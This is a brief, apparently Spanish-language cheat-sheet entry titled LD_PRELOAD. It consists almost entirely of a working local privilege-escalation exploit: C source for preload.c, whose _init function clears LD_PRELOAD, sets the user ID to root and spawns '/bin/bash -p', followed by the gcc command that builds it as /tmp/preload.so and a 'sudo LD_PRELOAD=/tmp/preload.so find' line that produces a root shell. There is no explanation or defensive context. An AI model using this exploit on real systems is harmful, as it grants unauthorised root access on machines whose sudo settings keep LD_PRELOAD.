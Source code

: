 
###LD_PRELOAD

Contenido de preload.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
sudo LD_PRELOAD=/tmp/preload.so find
